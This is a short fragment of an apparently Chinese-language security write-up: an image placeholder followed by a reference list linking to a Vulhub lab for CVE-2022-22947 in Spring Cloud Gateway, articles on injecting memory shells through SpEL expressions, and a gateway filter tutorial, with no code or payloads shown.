


## 参考文章

- [Vulhub/CVE-2022-22947](https://vulhub.org/#/environments/spring/CVE-2022-22947/)
- [Spring cloud gateway通过SPEL注入内存马](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/#0x01-%E9%AB%98%E5%8F%AF%E7%94%A8Payload)
- [CVE-2022-22947 注入哥斯拉内存马](https://blog.wanghw.cn/tech-share/cve-2022-22947-inject-godzilla-memshell.html)
- [Spring cloud gateway之Filter篇](https://www.fangzhipeng.com/springcloud/2018/12/21/sc-f-gatway3.html)

